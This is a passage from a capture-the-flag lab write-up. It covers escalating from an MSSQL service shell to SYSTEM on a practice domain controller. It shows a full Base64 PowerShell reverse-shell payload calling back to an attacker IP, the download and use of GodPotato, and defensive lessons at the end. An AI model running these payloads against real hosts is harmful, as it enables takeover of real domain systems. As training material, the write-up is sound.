HQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
```

Update the IP and port to your own.



*Penelope receiving the reverse shell as nt service\mssql$sqlexpress*

## Shell as NT AUTHORITY\SYSTEM (root.txt)

From the `nt service\mssql$sqlexpress` shell we check the host.

```
systeminfo
```

```
Host Name:                 DC01
OS Name:                   Microsoft Windows Server 2022 Standard
OS Version:                10.0.20348 N/A Build 20348
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00454-10000-00001-AA349
Original Install Date:     9/2/2025, 1:09:11 PM
System Boot Time:          9/10/2026, 10:11:16 AM
System Manufacturer:       Amazon EC2
System Model:              t3.medium
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz
BIOS Version:              Amazon EC2 1.0, 10/16/2017
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     3,920 MB
Available Physical Memory: 2,023 MB
Virtual Memory: Max Size:  4,624 MB
Virtual Memory: Available: 2,571 MB
Virtual Memory: In Use:    2,053 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    hack.smarter
Logon Server:              N/A
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB5008882
                           [02]: KB5011497
                           [03]: KB5010523
Network Card(s):           1 NIC(s) Installed.
                           [01]: Amazon Elastic Network Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.1.192.1
                                 IP address(es)
                                 [01]: 10.1.207.66
                                 [02]: fe80::15de:65c6:93b:2cfa
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

The host is Windows Server 2022, which GodPotato handles. We check the installed .NET version to pick the right build.

```
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4\Full" /v Release
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4\Full
```



*The reg query returning the .NET v4\Full key on DC01*

The `v4\Full` key is present, so we pull GodPotato's .NET 4 build.

`SeImpersonatePrivilege` lets a process take on the identity of any client that connects to it, including a privileged one. [GodPotato](https://github.com/BeichenDream/GodPotato) turns that into SYSTEM execution by coercing a SYSTEM service into connecting to a named pipe it controls, then impersonating that connection. We host the binary on our own machine.

```
python3 -m http.server 8000
```

Then pull it down through the `nt service\mssql$sqlexpress` shell, the session that holds the privilege.

```
Invoke-WebRequest -Uri "http://10.200.61.35:8000/GodPotato-NET4.exe" -OutFile "GodPotato-NET4.exe"
```

We test it before wiring up a shell.

```
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
```

```
[*] CombaseModule: 0x140705391050752
[*] DispatchTable: 0x140705393641336
[*] UseProtseqFunction: 0x140705392933680
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\ad8f4910-9c8c-4a3d-9d40-5f93ac7a3343\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00000002-0764-ffff-9f55-b9da9a0602fe
[*] DCOM obj OXID: 0xf9747d688e64bd53
[*] DCOM obj OID: 0x8369b3b641f7eb93
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 940 Token:0x604  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1656
nt authority\system
```



*GodPotato spawning a process as nt authority\system from the service account*

That is SYSTEM. We start a fresh Penelope listener and launch a second reverse shell through GodPotato, the same PowerShell #3 (Base64) payload on a new port.

```
penelope -p 1338
```

```
.\GodPotato-NET4.exe -cmd "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMgAwADAALgA2ADEALgAzADUAIgAsADEAMwAzADgAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

Penelope catches the shell.

```
whoami
```

```
nt authority\system
```



*Penelope holding a shell as nt authority\system*

DC01 is the domain controller, so SYSTEM here is control of the domain. `root.txt` sits on the Administrator desktop.



*The SYSTEM shell with root.txt listed on the Administrator desktop*

## Final Thoughts

ShareThePain read like a routine reset-and-roast box until a SQL Server instance turned up where I was not looking for one. The Targeted Kerberoast against alice.wonderland never cracked, so I took the password reset instead.

The chain opens on a null session, and guest and anonymous SMB access should be off everywhere, not just on domain controllers. That session could also write to a share, and a share one user can write to and another browses gives up their hashes. `bob.ross` then held `GenericAll` over `alice.wonderland`, and object-level rights like these need auditing on a schedule rather than at build time. SQL Server should not run on a domain controller: a sysadmin login turns `xp_cmdshell` into code execution as a service account whose `SeImpersonatePrivilege` reaches SYSTEM.

— 0xB1rd
